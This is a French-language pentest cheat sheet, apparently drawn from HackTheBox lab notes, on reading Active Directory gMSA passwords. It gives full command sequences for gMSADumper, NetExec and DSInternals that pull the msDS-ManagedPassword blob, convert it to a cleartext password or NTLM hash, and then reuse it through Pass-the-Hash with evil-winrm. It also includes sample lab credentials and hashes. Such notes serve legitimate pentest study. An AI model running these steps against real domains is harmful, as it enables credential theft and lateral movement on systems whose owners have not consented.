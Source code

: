 # Read the GMSA Password

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-gmsa/?ref=benheater.com#reading-gmsa-password" %}

{% embed url="https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f?ref=benheater.com#file-gmsa_permissions_collection-ps1" %}

{% embed url="https://www.netwrix.com/gmsa_exploitation_attack.html?ref=benheater.com" %}

Un **gMSA** est un compte de service AD dont le mot de passe est géré automatiquement par le **KDS (Key Distribution Service)**.\
Il est **long, complexe, change régulièrement** → mais **n’est jamais tapé à la main**.\
👉 En revanche, certains outils permettent de le lire / convertir pour exploitation (ex: Pass-the-Hash).

***

### 1️⃣ gMSADumper (Python)

#### Installation & usage :

```bash
git clone https://github.com/micahvandeusen/gMSADumper
cd gMSADumper
virtualenv .
source bin/activate
python3 -m pip install -r requirements.txt

python3 gMSADumper.py -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -l dc01.haze.htb -d haze.htb
```

* **+ :** Récupère le blob `msDS-ManagedPassword` via LDAP.
* **+ :** Donne directement le mot de passe en clair du gMSA.
* **– :** Nécessite Python + dépendances.

#### Exemple sortie :

```
gMSA Account: Haze-IT-Backup$
Password: S0m3_Rand0m_GMSA_P@ssw0rd!
```

***

### 2️⃣ NetExec (ex CrackMapExec)

#### Commande simple :

```bash
nxc ldap dc01.haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
```

* **+ :** Très rapide, intégré dans un outil déjà utilisé en pentest (NetExec).
* **+ :** Pas besoin d’installer DSInternals ni scripts Python.
* **– :** Affiche directement le mot de passe → à manipuler avec précaution.

***

### 3️⃣ DSInternals (PowerShell)

#### Étapes :

1. Télécharger + préparer module :

```bash
pwsh -c "Save-Module DSInternals -Path ."
zip -r DSInternals.zip DSInternals
# Upload sur la cible via evil-winrm
Expand-Archive DSInternals.zip
mkdir "$env:UserProfile\Documents\WindowsPowerShell\Modules\DSInternals"
Copy-Item -Recurse .\DSInternals\DSInternals\5.1\* "$env:UserProfile\Documents\WindowsPowerShell\Modules\DSInternals"
Import-Module DSInternals
```

2. Extraction du mot de passe gMSA :

```powershell
$targetGmsa = Get-ADServiceAccount -Identity 'Haze-IT-Backup' -Property 'msDS-ManagedPassword'
$converted = ConvertFrom-ADManagedPasswordBlob $targetGmsa.'msDS-ManagedPassword'
$secureString = ConvertTo-SecureString $converted.'CurrentPassword' -AsPlainText -Force
ConvertTo-NTHash -Password $secureString
```

* **+ :** Méthode native PowerShell (pas besoin d’outils externes côté AD).
* **+ :** Conversion automatique → NTLM Hash directement utilisable pour **Pass-the-Hash**.
* **– :** Plus verbeux, nécessite PowerShell 5.1+ et DSInternals.

***

### 🔑 Exploitation après extraction

* Avec **mot de passe en clair** → connexion RDP / services directement.
* Avec **NTLM Hash** → Pass-the-Hash via `evil-winrm`, `smbexec`, `wmiexec`, etc.

#### Exemple :

```bash
evil-winrm -i dc01.haze.htb -u 'Haze-IT-Backup$' -H 'ab45e0f0c7d0a92b12ce9843fbaabc2c'
```

***

## 📌 Tableau comparatif

| Outil           | Sortie obtenue        | Avantage principal                | Limite principale    |
| --------------- | --------------------- | --------------------------------- | -------------------- |
| **gMSADumper**  | Mot de passe en clair | Flexible, script Python portable  | Installe deps Python |
| **NetExec**     | Mot de passe en clair | Ultra simple et rapide (1 ligne)  | Moins discret        |
| **DSInternals** | NTLM hash + password  | Conversion directe → PTH possible | Plus verbeux         |

***
